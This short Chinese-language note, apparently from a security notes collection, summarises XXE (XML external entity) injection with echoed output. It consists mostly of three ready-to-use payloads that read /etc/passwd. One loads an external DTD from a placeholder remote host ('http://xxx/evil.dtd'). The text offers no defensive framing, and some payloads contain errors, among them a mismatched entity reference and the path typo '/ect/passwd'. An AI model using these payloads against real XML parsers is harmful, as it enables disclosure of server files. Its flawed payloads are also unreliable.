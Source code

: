 ```yaml
---
title: XXE 有回显利用方式总结
id: zhfly3587
---
```


## XXE 有回显利用方式总结

结合外部实体声明（实体名称 SYSTEM ”uri/url“）和参数实体（% 实体名称 SYSTEM “uri-外部dtd”）有两种方式进行注入攻击

### 姿势一

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root> 
```

### 姿势二

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo> 
```

### 姿势三

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

##### 外部evil.dtd的内容

```
<!ENTITY %evil SYSTEM "file:///ect/passwd"> 
```